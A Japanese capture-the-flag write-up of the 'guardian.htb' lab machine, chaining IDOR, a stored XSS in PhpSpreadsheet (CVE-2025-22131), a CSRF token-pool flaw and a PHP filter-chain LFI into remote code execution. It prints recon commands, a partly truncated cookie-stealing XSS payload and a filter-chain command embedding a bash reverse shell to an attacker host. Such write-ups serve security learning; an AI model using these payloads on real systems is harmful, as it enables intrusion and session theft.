



## 概要

Web アプリケーションの複数の脆弱性を連鎖させ、RCEに至るまでを扱う。

扱う主な攻撃手法

| 攻撃手法   | 詳細                                         |
| ---------- | -------------------------------------------- |
| IDOR       | チャットに関する不適切な直接オブジェクト参照 |
| Stored XSS | CVE-2025-22131                               |
| CSRF       | セッション非依存のトークンプール             |
| LFI        | PHP filter chain                             |

## 攻撃フロー



## 偵察と初期アクセス

```bash
nmap -sVC <target>
```


| ポート | サービス | バージョン    |
| ------ | -------- | ------------- |
| 22     | SSH      | OpenSSH 8.9p1 |
| 80     | HTTP     | Apache 2.4.52 |

ポート 80 にアクセスすると `guardian.htb` へリダイレクトされるため、ホスト名を `/etc/hosts` に追加する。続いて仮想ホストによるルーティングを想定し、サブドメインを列挙する。

```bash
ffuf -u http://<target> -H "Host: FUZZ.guardian.htb" \
  -w /path/to/wordlist.txt -fw <amount-of-words>
```

以下のサブドメインを確認した。

- `guardian.htb` — メインサイト
- `portal.guardian.htb` — 学生ポータル
- `gitea.guardian.htb` — Gitea

ポータルのログイン画面の Help リンクからは学生ガイド PDF が取得でき、全学生の初期パスワードが `GU1234` で、初回ログイン時に変更するよう案内されていることが分かる。初期パスワードを変更していないアカウントが存在すると推測し、Testimonials から得たユーザー名に初期パスワードを組み合わせることで、student としてログイン成功した。


## IDOR: Gitea 認証情報の詐取

student ポータルにはチャット機能があり、URL に会話相手のユーザー ID が直接指定されている。このパラメータは、リクエスト元が当該会話の参加者であるかを検証せずに参照される。そのため ID を変更すると、自分が関与しない他ユーザー間のメッセージを閲覧できる。

```
http://portal.guardian.htb/student/chat.php?chat_users[0]=1&chat_users[1]=2
```


## XSS: セッションハイジャック（CVE-2025-22131）

取得した認証情報で Gitea にログインし、ポータルのソースコードを確認する。`composer.json` の依存関係に、PhpSpreadsheet `3.7.0` が指定されている。このバージョンは XSS 脆弱性 CVE-2025-22131 の影響を受ける。

課題提出画面では `.xlsx` ファイルのアップロードが許可されており、提出物は講師側の画面でプレビューされる。



```javascript
// XSS payload
:<port>/?c='+document.cookie)>
```


## CSRF: Admin アカウントの作成

lecturer セッションでアクセスできる範囲を確認し、あわせてソースコードで CSRF トークンの実装を調べる。実態は、生成済みCSRFトークンを単一のプールに格納し、検証時はプール内に該当トークンが存在するかを確認するだけの実装になっている。

この実装ではトークンがユーザーやセッションに紐づいていない。プールに存在する任意のトークンが、どのユーザーのリクエストでも有効と判定される。したがって lecturer セッションで取得したトークンを、admin 権限のリクエストにそのまま流用できる。

admin パネルにはユーザー作成エンドポイントがあり、`user_role` を指定できる。lecturer で取得したトークンを含む自動送信フォームを用意し、admin に意図せず実行させることで、`user_role=admin` のアカウントを作成する。




## LFI: PHP Filter Chain

admin パネルのレポート機能 `admin/reports.php` は、`report` パラメータで指定したファイルを `include` する。入力には 2 段階の検証があるが、いずれも不十分である。

```php
$report = $_GET['report'] ?? 'reports/academic.php';

// 検証1: パストラバーサルの拒否
if (strpos($report, '..') !== false) {
    die("blocked");
}

// 検証2: ファイル名の正規表現チェック
if (!preg_match('/^(.*(enrollment|academic|financial|system)\.php)$/', $report)) {
    die("invalid file");
}

include($report);
```

検証 2 の正規表現は、文字列が許可された名前（`enrollment` / `academic` / `financial` / `system`）＋ `.php` で終わることのみを要求する。先頭の `.*` が任意の文字列にマッチするため、末尾さえ条件を満たせば、前半に任意のスキームやペイロードを置ける。これは `include` に渡す文字列のプレフィックスを制限していないことによる。

この検証の緩さを利用し、PHP filter chain を用いて任意コードを実行させる。ここでは変換後のコードとしてリバースシェルを確立するワンライナーを埋め込み、末尾に system.php を付加して検証を回避する。

```bash
# ペイロード生成
python3 php_filter_chain_generator.py \
  --chain "<?php system(\"bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'\");?>"

# 攻撃URL
# http://portal.guardian.htb/admin/reports.php?report=<filter_chain>,system.php
```


## 感想

Web アプリケーションでよく議論される基本的な脆弱性を連鎖させて RCE まで到達できる、とても勉強になるマシンでした。
